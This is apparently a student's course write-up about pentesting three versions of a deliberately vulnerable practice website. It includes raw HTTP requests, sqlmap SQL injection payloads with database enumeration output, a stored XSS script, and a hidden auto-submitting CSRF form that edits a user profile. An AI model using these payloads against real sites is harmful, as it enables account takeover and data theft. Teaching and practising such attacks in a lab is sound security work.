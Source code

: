 # FacebookCyberSecurityCourseWeek8

POST /blue/public/staff/login.php 
csrf_token=d3115608c3c3aeb6cb8292b53c3b5899&username=&password=&submit=Submit

GET /blue/public/salesperson.php?id=1

-----

GET /green/public/salesperson.php?id=1

POST /green/public/contact.php HTTP/1.1
Cookie: PHPSESSID=qfsftu2c1q8njfubig8vrvfgl7

csrf_token=74905c37cf6cd71f632761b7c70a473c&name=aaaa&email=aaaa%40aol.com&feedback=aaaa&submit=Submit

 Admin red:
 POST /red/public/staff/users/new.php HTTP/1.1
 csrf_token=9823e079f451ca389ef312842a45671b&first_name=Jon&last_name=k&username=ok&email=ok%40aol.com&password=%21QAZ%40WSX1qaz2wsx&confirm_password=%21QAZ%40WSX1qaz2wsx&submit=Create

    GET /red/public/staff/users/edit.php?id=4 HTTP/1.1

    GET /red/public/staff/users/show.php?id=4 HTTP/1.1

    GET /red/public/staff/salespeople/show.php?id=10 HTTP/1.1

    GET /red/public/staff/salespeople/edit.php?id=11 HTTP/1.1

    GET /red/public/staff/countries/show.php?id=1 HTTP/1.1
















# Project 8 - Pentesting Live Targets

Time spent: **8** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQLi

Blue site vulnerable to SQLi. Using sqlmap utility, with endpoint "/blue/public/salesperson.php?id=1", results:
sqlmap identified the following injection point(s) with a total of 205 HTTP(s) requests:

```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 4778=4778 AND 'jfPB'='jfPB

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (comment)
    Payload: id=1' OR SLEEP(5)#
---
```

After inject point was found, DB tables and sensitive data was exposed from all 3 of the sites (red/blue/green):

web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
available databases [7]:
[*] globitek_blue
[*] globitek_green
[*] globitek_red
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys

For instance, using sqlmap to probe globitek_blue tables, we find:

Database: globitek_blue
[8 tables]
+-------------------------+
| countries               |
| failed_logins           |
| feedback                |
| salespeople             |
| salespeople_territories |
| states                  |
| territories             |
| users                   |
+-------------------------+

![Gif of 5](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek

/blob/master/5.gif?raw=true)

Vulnerability #2: Session Hijacking / Fixation
Blue site allows sessions to be a year old, and never regenerates the session ID, even when the user agent string changes. This makes it vulnerable to both session hijacking and session fixation attacks.  This is demonstrated by opening two browser instances. In the first, we will log in as an admin. We will then discover the session id using the provided tool, and give and set it to browser 2. With this id, browser 2 can bypass the login process. Uh-oh!

GIF:




## Green

Vulnerability #1: Cross-site Scripting
    Green site is vulnerable to stored XSS attacks. Any user can submit feedback to the admin of the site, and the feedback is not properly sanitized.
    Submitting a form with comment <script>alert('XSS attack');</script>, we can demonstrate the effect when the admin views it (seen below):

![Gif of 6](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/6.gif?raw=true)
Vulnerability #2: __________________


## Red

Vulnerability #1: Cross Site Request Forgery

    The red site doesn't need a CSRF token to carry out admin-level work, such as editing a user's profile. By creating a hidden form that is automatically submitted (without notifying the user of submission results), we can be stealthy. For example, by using a hidden form which will not display submission results, we can send a POST request by linking it to a logged in admin. In this example, I've linked the malicious form to the admin through the "contact us" page.
    ```
    <html><body onload="document.bank_form.submit()"><form action="https://35.184.242.122/red/public/staff/users/edit.php?id=4" method="POST" name="bank_form" style="display: none;" target="hidden_results" ><input type="text" name="first_name" value="MALICIOUSALTEREDVALUE"/><input type="text"/></form> <iframe name="hidden_results" style="display: none;"></iframe> </body> </html>
    ```

![Gif of 8](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/8.gif?raw=true) 

Vulnerability #2: Username Enumeration

    The red site is vulnerable to username enumeration, because attempting to login too many times will lock out the account from trying for x minutes. This is prompt confirms that the username exists in the system (accounts that do not exist will not throw this error message after 3 attempts)


![Gif of 7](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/7.gif?raw=true)



## Notes

Describe any challenges encountered while doing the work
